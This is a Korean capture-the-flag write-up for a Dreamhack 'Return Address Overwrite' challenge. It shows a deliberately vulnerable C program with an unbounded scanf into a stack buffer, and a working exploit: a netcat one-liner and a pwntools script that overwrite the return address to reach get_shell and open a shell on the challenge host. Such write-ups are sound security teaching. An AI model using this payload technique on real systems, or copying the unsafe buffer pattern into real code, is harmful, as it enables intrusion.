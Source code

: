 ## 📍Return Address Overwrite

```c
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};

  execve(cmd, args, NULL);
}

int main() {
  char buf[0x28];

  init();

  printf("Input: ");
  scanf("%s", buf);

  return 0;
}
```

#### 풀이
`main` 함수가 반환될 때 돌아갈 반환 주소에 `get_shell()` 함수의 주소를 넣어야 한다.
`scanf()` 함수의 버퍼 시작 주소를 알아내고, 리턴 주소인 `rbp+0x8`까지의 거리를 알아낸다.
버퍼 시작 주소부터 리턴 주소까지 더미 데이터로 채운다.
더미 데이터 이후에는 `get_shell()` 함수의 시작 주소를 넣는다.


`rao` 바이너리를 gdb로 분석:
![](../../Attachments/3DBFE693-B01D-495B-8CCA-1428D4460714.png)

`scanf()` 함수의 버퍼 시작 주소 = `rbp-0x30`

![](../../Attachments/0F7D3B72-B913-4AB6-A0BD-BA48609C5D6C.png)

`get_shell()` 함수의 시작 주소: `0x4006aa`

```
$ (python -c "print 'A'*0x30 + 'B'*0x8 + '\xaa\x06\x40\x00\x00\x00\x00\x00')" | nc host3.dreamhack.games 22743
```

위처럼 파이썬 인터프리터로 전달하지 말고 pwntools를 이용해보자! 😠

```python
from pwn import *

p = remote('host3.dreamhack.games', 22743)
payload = b'A'*0x30 + b'B'*0x8 + b'\xaa\x06\x40\x00\x00\x00\x00\x00'

p.sendline(payload)

p.interactive()
```

![](../../Attachments/B5182A5A-5D23-4958-81C1-1B7FF2686AE5.png)

🚩
